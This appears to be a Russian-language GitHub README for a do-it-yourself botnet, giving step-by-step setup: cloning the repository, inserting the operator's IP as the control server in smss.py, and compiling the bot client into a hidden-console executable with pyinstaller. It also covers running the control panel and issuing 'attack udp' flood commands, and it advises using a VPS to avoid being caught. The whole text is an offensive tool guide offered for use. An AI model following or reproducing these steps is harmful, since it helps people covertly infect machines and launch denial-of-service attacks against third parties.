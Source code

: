 <h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>
Можно также использовать как панель для VPS ботнета <br>
Клонируем гит <br>
 
```shell
git clone https://github.com/Samuraianonweb/bot
```
<br>
 
```shell
cd bot
```
<br>
Чтобы не попасться , лучше использовать VPS<br>

Чтобы узнать (Свой/VPS) ip <br>
```
ifconfig
```
Редактируем файл smss.py

```python
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
```
Когда всё подготовленно , осталось зделать с Python  в EXe файл<br>

Установка pyinstaller<br>
 
```shell
pip install pyinstaller
```

После полной установки pyinstaller в нашем директории bot <br>
Приступаем к билду exe <br>
 
```shell
pyinstaller --onefile --noconsole smss.py<br>
```
<br>
```
Флаг --onefile собирает всё в один файл<br>
Флаг --noconsole делает так чтобы при запуске скрывалась консоль <br>
После того как наш файл exe создался можно начать с панели <br>
```
Запуск панели 
 
```shell
python Server.py
```
Вводим help и видем всё настройки 
update - Для обновления листа ботов 
list - Показать активных ботов 
Команда атаки<br>
 
```shell
attack udp <ip> <port> <time in second> <thread>
```
